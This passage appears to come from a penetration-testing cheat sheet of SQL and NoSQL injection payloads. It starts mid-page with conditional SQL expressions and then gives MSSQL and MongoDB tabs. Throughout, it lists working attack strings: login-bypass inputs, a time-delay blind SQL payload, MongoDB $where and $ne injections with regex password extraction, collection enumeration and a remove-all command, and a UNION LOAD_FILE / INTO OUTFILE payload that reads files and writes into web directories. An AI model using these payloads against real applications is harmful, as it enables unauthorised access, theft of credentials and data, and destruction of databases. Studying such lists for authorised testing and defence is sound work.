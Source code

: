  case ‘a’ when ‘a’ then 1 \[else 0\] end  
 case when ‘a’=’a’ then 1 \[else 0\] end  
 if\(‘a’=’a’,1,0\)  
 ifnull\(nullif\(‘a’,’a’\),1\)
{% endtab %}

{% tab title="MSSQL" %}
admin' --  
admin' \#  
admin'/\*  
' or 1=1--  
' or 1=1\#  
' or 1=1/\*  
'\) or '1'='1--  
'\) or \('1'='1--  
  
**Blind SQL:**  
' waitfor delay '00:00:10'--
{% endtab %}

{% tab title="NoSQL" %}
true, $where: '1 == 1'  
, $where: '1 == 1'  
$where: '1 == 1'  
', $where: '1 == 1'  
1, $where: '1 == 1'  
{ $ne: 1 }  
', $or: \[ {}, { 'a':'a  
' } \], $comment:'successful MongoDB injection'  
db.injection.insert\({success:1}\);  
db.injection.insert\({success:1}\);return 1;db.stores.mapReduce\(function\(\) { { emit\(1,1  
\|\| 1==1  
' && this.password.match\(/.\*/\)//+%00  
' && this.passwordzz.match\(/.\*/\)//+%00  
'%20%26%26%20this.password.match\(/.\*/\)//+%00  
'%20%26%26%20this.passwordzz.match\(/.\*/\)//+%00  
{$gt: ''}  
\[$ne\]=1  
db.getName\(\) –Get current DB name  
db.members.count\(\) –Get number of documents in the collection  
db.members.validate\({ full : true}\) –Get ALL information about this collection  
db.members.stats\(\) –Get information about this collection  
db.members.remove\(\) –remove all documents from current collection  
db.members.find\(\).skip\(0\).limit\(1\) –Get documents from DB \(Change only number in skip\(\) function\)  
db.getMongo\(\).getDBNames\(\).toString\(\) –Get the list of all DBs  
db.members.find\(\)\[0\]\[‘pass’\] –Get “pass” value from current collection
{% endtab %}
{% endtabs %}

### **Load file by injecting into the vulnerable field**

```text
…UNION ALL SELECT NULL,LOAD_FILE(‘<user-readable-file>’),NULL,NULL;-- …UNION ALL SELECT NULL,LOAD_FILE(‘<user-readable-file>’),NULL,NULL INTO OUTFILE ‘<writeable-path-or-web-directorygt;’;--
```
